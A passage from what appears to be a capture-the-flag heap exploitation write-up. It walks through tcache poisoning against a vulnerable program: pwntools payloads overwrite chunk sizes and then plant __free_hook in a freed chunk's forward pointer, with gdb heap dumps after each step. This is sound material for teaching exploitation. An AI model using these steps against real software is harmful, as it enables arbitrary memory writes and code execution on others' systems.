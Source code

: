 after that I construct a payload that will use the underflow to change the size of E to 0x21. But before that, E will be freed into tcache 0x51. for the overflow I will use chunk F that I will allocate back from tcache 0xa0

```
payload = 0x80 * b'B' <--- 128 Bs to overflow char
payload += p64(0)
payload += p64(0x21) <--- size of D. We leave it as it was
payload += p64(0)
payload += p64(0)
payload += p64(0)
payload += p64(0x21) <--- size of E. We change it to 0x21>
create(0,0x90,payload) <--- chunk F from tcache>
```
```
0x56257ccda290:	0x0000000000000000	0x0000000000000021 <--- chunk D. Free
0x56257ccda2a0:	0x0000000000000000	0x0000000000000000
0x56257ccda2b0:	0x0000000000000000	0x0000000000000021 <--- chunk E. Free
0x56257ccda2c0:	0x0000000000000000	0x000056257ccda010
0x56257ccda2d0:	0x0000000000000000	0x0000000000000000
0x56257ccda2e0:	0x0000000000000000	0x0000000000000000
0x56257ccda2f0:	0x0000000000000000	0x0000000000000000
0x56257ccda300:	0x0000000000000000	0x00000000000000a1 <--- chunk F. Malloc
0x56257ccda310:	0x4242424242424242	0x4242424242424242
0x56257ccda320:	0x4242424242424242	0x4242424242424242
0x56257ccda330:	0x4242424242424242	0x4242424242424242
0x56257ccda340:	0x4242424242424242	0x4242424242424242
0x56257ccda350:	0x4242424242424242	0x4242424242424242
0x56257ccda360:	0x4242424242424242	0x4242424242424242
0x56257ccda370:	0x4242424242424242	0x4242424242424242
0x56257ccda380:	0x4242424242424242	0x4242424242424242
0x56257ccda390:	0x0000000000000000	0x0000000000000000
0x56257ccda3a0:	0x0000000000000000	0x00000000000000f1
```

now that we have chunk D in tcache 0x21, chunk E in tcache 0x51 we will malloc E back from tcache and then free it again but after the second free it will end up in tcache 0x21 since we changed it's size


```
create(0,0x40,b'DDDDDDD') <--- bring E back from tcache and free F in tcache 0xa0
payload += p64(__free_hook) <--- update the payload with __free_hook
create(0,0x90, payload) <--- malloc F back and use the underflow again but now write __free_hook in E's fw
```

We have now successfuly poisoned the 0x21 size tcache as it went from E->D to E->__free_hook and count did not change.

```
0x56257ccda290:	0x0000000000000000	0x0000000000000021 <--- chunk D. Free
0x56257ccda2a0:	0x0000000000000000	0x0000000000000000 
0x56257ccda2b0:	0x0000000000000000	0x0000000000000021 <--- chunk E. Free. Poisoned with __free_hook
0x56257ccda2c0:	0x00007f6a2f4b0e70	0x000056257ccda000
0x56257ccda2d0:	0x0000000000000000	0x0000000000000000
0x56257ccda2e0:	0x0000000000000000	0x0000000000000000
0x56257ccda2f0:	0x0000000000000000	0x0000000000000000
0x56257ccda300:	0x0000000000000000	0x00000000000000a1 <-- chunk F. Malloc
0x56257ccda310:	0x4242424242424242	0x4242424242424242
0x56257ccda320:	0x4242424242424242	0x4242424242424242
0x56257ccda330:	0x4242424242424242	0x4242424242424242
0x56257ccda340:	0x4242424242424242	0x4242424242424242
0x56257ccda350:	0x4242424242424242	0x4242424242424242
0x56257ccda360:	0x4242424242424242	0x4242424242424242
0x56257ccda370:	0x4242424242424242	0x4242424242424242
0x56257ccda380:	0x4242424242424242	0x4242424242424242
```